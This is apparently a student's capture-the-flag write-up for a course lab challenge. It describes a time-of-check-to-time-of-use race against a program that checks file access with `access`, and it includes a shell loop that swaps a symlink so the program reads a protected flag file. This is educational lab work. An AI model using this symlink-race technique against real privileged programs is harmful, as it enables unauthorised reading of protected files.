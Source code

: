 # Challenge `I challenge you for a race` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to TOCTOU

- Where: Where is the vulnerability present
  - `username@mustard.stt.rnl.tecnico.ulisboa.pt`, on port `23651`

- Impact: What results of exploiting this vulnerability
  - Allows the user to read files without permission, by exploiting the `access` function in the provided code

## Steps to reproduce

1. SSH to username@mustard.stt.rnl.tecnico.ulisboa.pt`, on port `23651`
2. Create a folder with `mkdir /tmp/<name>`
3. Create a dummy file inside this folder and a pointer for it
4. Execute the program `challenge` in the folder `/challenge` and give the pointer as input
5. Quickly change the pointer to the flag located in `/challenge/flag`

The code used was the following:

```sh
  while true; do
    touch /tmp/joaomatos/dummy
    ln -sf /tmp/joaomatos/dummy /tmp/joaomatos/pointer
    echo "/tmp/joaomatos/pointer" | /challenge/challenge &
    ln -sf /challenge/flag /tmp/joaomatos/pointer
done
```

Note: `grep` was used to extract the flag from the output